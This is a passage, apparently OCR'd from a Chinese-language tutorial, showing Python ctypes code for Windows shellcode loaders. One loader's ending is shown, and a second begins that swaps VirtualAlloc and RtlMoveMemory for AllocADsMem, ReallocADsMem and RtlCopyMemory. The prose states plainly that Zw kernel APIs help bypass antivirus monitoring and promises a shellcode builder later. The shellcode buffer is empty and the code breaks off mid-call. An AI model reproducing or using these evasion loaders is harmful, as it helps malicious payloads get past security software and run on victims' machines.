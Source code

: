```python
    ctypes.c_int(0),
    ctypes.c_void_p(ptr_realloc),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

![](img/4.png)

### RtlCopyMemory

​	在上文使用`AllocADsMem`+`ReallocADsMem`替换`VirtualAlloc`的基础上，利用`RtlCopyMemory`替换`RtlMoveMemory`，这里也可以用`ZwAllocateVirtualMemory`来进行代替，使用内核层面`Zw`系列的`API`来绕过杀软对应用层的监控，后文会利用该方式来构造`shellcode`构造器。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
AllocADsMem+ReallocADsMem+VirtualProtect+RtlCopyMemory
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(
    ctypes.c_int(len(shellcode))
)

ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(
    ptr_alloc,
    len(shellcode),
```